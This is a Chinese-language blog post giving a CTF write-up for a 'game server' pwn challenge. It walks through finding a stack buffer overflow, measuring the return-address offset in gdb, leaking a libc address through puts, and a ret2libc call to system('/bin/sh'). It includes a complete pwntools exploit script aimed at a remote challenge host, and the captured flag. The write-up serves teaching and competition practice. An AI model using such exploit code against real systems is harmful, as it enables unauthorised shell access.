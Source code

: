 ```yaml
---
layout: post
title: "game server"
date: 2018-05-01
categories: jekyll update
---
```

### game server
##### 操作内容：
首先IDA分析程序，发现有三个输入的地方，但是前面两个都是最多输入256字节大小的字符，并且内容都是用一个指针来指向的，所以并没有出现有溢出点，但是最后输入`introduction`的时候是用`read`输入前面`snprintf`成功读取的字节数，这读取字节数的可控性，而且s又是放在栈上的，这就造成了溢出，如下图：

<img src="/images/posts/redhat/1525178282949.png" >

gdb调试找偏移地址的整个过程：

以发现返回地址：

<img src="/images/posts/redhat/1525184025856.png" >

这时断在`read`函数，`ni`单步执行输入`introduction`的内容，发现可以输入的字节数完全可以覆盖返回地址，远不止255个字符：

`gdb`调试用`pattern`计算得到`eip`的距离为277

在`read`后面`0x08048794`下断点，然后`gdb`调试：
看到地址已经被成功覆盖为`puts_plt`表的地址，如图：

<img src="/images/posts/redhat/1525178294717.png" >

<img src="/images/posts/redhat/1525178301877.png" >

```
payload = "C"*277 + p32(puts_plt) + p32(main) + p32(libc_start_main_got)
p.sendline(payload)
```

然后在接收相应的地址的时候出了问题，发现直接payload后面设置标志来接收后面部分都是出现一大堆乱七八糟的东西，最后找到原因是最后return是一个printf函数，用于打印整个用户信息：

<img src="/images/posts/redhat/1525183460082.png" >

要准确在其后面接收信息，发现后面有个换行符，再加上我用的sendline来send的payload，所以直接`p.recvuntil("\n\n")`就可以成功接收到payload了

<img src="/images/posts/redhat/1525185853350.png" >

计算pattern：

pattern create 300：

<img src="/images/posts/redhat/1525185943806.png" >

continue输入pattern，发现他断下来报错，那是因为ret是一个不存在的地址而导致的：

<img src="/images/posts/redhat/1525186115609.png" >

<img src="/images/posts/redhat/1525186168612.png" >


得到EIP偏移为277

然后接收到libc地址后(泄露libc地址)，再通过网站https://libc.blukat.me/或者用libc-database来找对应版本的libc库，最后注意ret地址要是主界面的那个子程序(0x08048637)，这样可以保持栈平衡，最后再一次ret2libc来执行system来getshell就ok了

脚本如下：
```
from pwn import *
from LibcSearcher import *
elf = ELF('./pwn2')
#p = process('./pwn2')
p = remote('123.59.138.180',20000)
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
libc_start_main_got = elf.got['__libc_start_main']
print hex(libc_start_main_got)
print hex(puts_got)
print p.recvuntil("First, you need to tell me you name?")
p.sendline("A"*255)
#print p.recvuntil("What's you occupation?")
#p.sendline("B"*255)
print p.recvuntil("[Y/N]")
p.sendline('Y')
main = 0x08048637
#payload = "C"*277 + p32(puts_plt) + p32(main) + p32(puts_got)
payload = "C"*277 + p32(puts_plt) + p32(main) + p32(libc_start_main_got)
pause()
p.sendline(payload)
p.recvuntil("\n\n")
libc_start_main_addr  = u32(p.recv(4))
print hex(libc_start_main_addr)
pause()
libc_base = libc_start_main_addr - 0x018540
system_addr = libc_base + 0x03a940
binsh_addr = libc_base + 0x15902b
log.info("libc_base addr " + hex(libc_base))
log.info("system_addr addr " + hex(system_addr))
log.info("binsh_addr addr " + hex(binsh_addr))


print p.recvuntil("First, you need to tell me you name?")
p.sendline("A"*255)
print p.recvuntil("[Y/N]")
p.sendline('Y')
payload_getshell = "C"*277 + p32(system_addr) + p32(0) + p32(binsh_addr)
p.sendline(payload_getshell)
p.interactive()

#EIP+0 found at offset: 277
#EBP+0 found at offset: 273
```
#### FLAG值：
`flag{f3b92d795c9ee0725c160680acd084d9}`